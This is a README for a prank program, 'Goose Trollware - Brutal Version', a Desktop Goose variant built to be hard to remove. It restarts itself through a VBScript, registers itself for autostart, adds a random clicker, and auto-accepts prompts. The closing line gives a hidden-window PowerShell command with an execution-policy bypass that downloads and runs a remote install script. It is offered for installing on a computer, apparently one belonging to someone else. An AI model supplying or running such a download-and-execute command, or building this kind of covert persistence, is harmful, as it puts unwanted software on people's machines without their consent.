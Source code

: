 # Goose Trollware - Brutal Version

This is the same as my other goose trollware repository, except it's harder to remove, I added a few memes and text files of my own, and added a random clicker mod.

See [here](https://desktop-goose.en.uptodown.com/windows) for the original program and author. 


The original program is just a goose that walks around your screen, sometimes leaving footmarks, opening text files or opening memes. You can typically close it with task manager or by holding escape. 

In my version, the gooes is launched using a VBScript to start it again if it is stopped. On top of that, it writes this script to an autostart location so that the duck starts up when you boot your computer. 

---

`i.ps1`: The install script

`run.vbs`: The vbs startup script. This one automatically presses Yes to the question about mods.

---

To install on a computer, run `powershell -W H -Ex B -c "iex (iwr 'https://github.com/Reginald-Gillespie/G2/raw/main/i.ps1').Content"` in the Run Dialogue.
